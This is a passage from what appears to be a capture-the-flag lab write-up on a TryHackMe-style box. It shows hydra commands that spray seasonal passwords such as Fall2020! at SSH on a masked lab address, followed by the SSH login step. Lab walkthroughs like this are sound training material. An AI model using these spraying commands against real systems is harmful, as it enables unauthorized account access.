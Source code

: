 2. The hint also says, "consider using Fall instead of Autumn. For years, try years betweeen 2020-2021. 
3. I opened up multiple tabs and just started going at it: 
- ```hydra -L usernames-list.txt -p Fall2020! ssh://10.10.x.x -f```
- ```hydra -L usernames-list.txt -p Fall2020@ ssh://10.10.x.x. -f``` 
- Fall2021! 
- Fall2021@
4. Once you've got the credentials: 
- ```ssh <username>@10.10.x.x```

![password spraying](https://github.com/ryangreggw/THM-BOXES/assets/25268281/f6521e05-c31a-4073-8fcf-0a8f638e2c10)

![password spraying answer](https://github.com/ryangreggw/THM-BOXES/assets/25268281/edd80a46-f98c-4c76-9d2f-c4036966b61b)


**#RESOURCES:**
https://hashcat.net/wiki/doku.php?id=hashcat
https://www.lifewire.com/list-of-executable-file-extensions-2626061
